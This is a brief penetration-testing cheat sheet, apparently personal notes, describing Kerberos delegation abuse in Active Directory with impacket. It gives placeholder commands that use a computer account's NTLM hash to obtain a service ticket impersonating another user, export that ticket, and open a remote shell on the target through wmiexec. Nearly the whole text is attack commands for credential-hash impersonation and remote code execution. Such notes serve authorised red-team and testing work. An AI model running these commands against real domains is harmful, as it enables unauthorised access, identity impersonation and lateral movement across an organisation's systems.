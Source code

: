 ### source
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/getST.py  

### create service ticket using computer account and delegate ticket to impersonate user
```
impacket-getST -spn cifs/<fqdnRhost> -impersonate <impersonateUser> -hashes :<ntlmHash> <domain>/<computerAccount>
```

### export ticket
```
export KRB5CCNAME=<impersonateUser>.ccache
```

### use ticket
```
impacket-wmiexec -k -no-pass <fqdnRhost>
```

